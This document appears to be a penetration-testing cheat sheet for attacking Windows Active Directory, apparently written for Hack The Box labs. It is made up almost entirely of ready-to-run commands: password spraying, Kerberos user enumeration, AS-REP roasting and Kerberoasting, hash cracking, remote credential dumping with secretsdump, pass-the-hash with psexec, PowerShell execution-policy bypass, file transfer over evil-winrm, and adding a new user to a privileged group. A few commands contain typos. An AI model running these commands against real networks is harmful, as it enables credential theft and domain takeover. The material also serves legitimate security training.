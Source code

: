 # Tools

## Crackmapexec

```bash
crackmapexec smb <IP> -u <username(s)> -p <password(s)>

crackmapexec winrm <IP> -u <username(s)> -p <password(s)>
crackmapexec winrm <IP> -u <username(s)> -p <password(s)> -X "whoami"  # Run a command
```

## Kerbrute

Identify potential valid users

```bash
kerbrute userenum --dc <IP> -d <domain.local> users.txt
# Can verify working by placing known users in user.txt i.e. administrato, guest,

```

## Impacket

#### GetADUsers

Queries target domain for users data

```bash
GetADUsers.py -all -dc-ip <IP> active.htb/svc_tgs   # Will need account creds
```

#### GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

```bash
GetNPUsers.py <DOMAIN.LOCAL>/administrator  # use other known usernames too
# Look for user/hash output

GetNPUsers.py -dc-ip <IP> -request 'htb.local/'
# Look for user/hash output
GetNPUsers.py -dc-ip <IP> -request 'htb.local/' -format hashcat  # Put it in hashcat format in prep to crack
# Hashcat Crack
hashcat -m 18200 hash.txt rockyou.txt -r rules/InsidePro-PasswordsPro.rule
# If cracked...
crackmapexec smb <IP> -u <user> -p <password>  # Look for Pwn3d!
crackmapexec smb <IP> -u <user> -p <password> --shares  # Check for SMB shares to access
```

#### GetUserSPNs

Queries target domain for SPNs that are running under a user account

```bash
GetUserSPNs.py -request -dc-ip <IP> active.htb/svc_tgs
# Check for kerberoasted output
# Crack found hashes then try to psexec
```

#### secretsdump

Performs various techniques to dump secrets from the remote machine without executing any agent there.

```bash
secretsdump.py htb.local/<username>@<IP>
secretsdump.py htb.local/<username>:<password>@<IP>
# Grab the hashes then attempt to crack or pass the hash
# Pass the hash
crackmapexec smb <IP> -u administrator -H <hash>
# If Pwn3d!...
psexec.py -hashes <hash> administrator@<IP>
```

## PowerView

Cheat Sheet - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Setup

```powershell
# Navigate to the directory PowerView is in
powershell -ep bypass  # load a powershell shell with execution policy bypassed
. .\PowerView.ps1  # import the PowerView module
```

### Example

```powershell
Get-NetComputer -fulldata | select operatingsystem  # gets a list of all operating systems on the domain
Get-NetUser | select cn  # gets a list of all users on the domain
Get-NetGroup  # Get groups
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}  # Get Kerberoastable user from a specified group
```

## evil-winrm

#### Connection

```bash
evil-winrm -u <user> -p <password> -i <IP>
```

#### Upload File to Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
Evil-WinRM PS C:\Users\FSmith\Documents> .\winPEAS.exe
```

#### Download From from Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> download 123_BloodHound.zip
```

## Bloodhound / Sharphound

### Sharphound

Copy sharphound.exe to the target and run to gather information.

```powershell
.\SharpHound.exe -c all
# Will output a zip file to copy back to Kali

# Running remotely in PowerShell
.\SharphHound.exe -c all -d active.htb --domaincontroller <IP>
```

### Bloodhound

Run Bloodhound (and neo4j) then import zip file created by Sharphound

```bash
# Run neo4j first
sudo neo4j console/start
# Run Bloodhound
bloodhound --no-sandbox

# After importing, search on what you have owned
# Ex: search on username, right click and mark as owned
# Then navigate to Queries and look at Shortest Paths
# Look at Service accounts/Account Operators which have special permissions create accounts and put htem in different groups
# Ex: Create new user and add them to a group that has higher permissions; can't be Administrator gourp
net user <username> <password> /add/ domain
net group "Exchange Windows Permissions"  # Check for group members
net group "Exchange Windows Permissions" /add <username>  # Add user to group in quotes
# Then back in Bloodhound, right click group added (graph line) and look at Abuse Info.
# Will most likely use PowerView for the Abuse
```

### neo4j

```bash
# neo4j new password/forgot password
locate no4j | grep auth
rm /usr/share/neo4j/data/dbms/auth
neo4j console
# Reset password
```


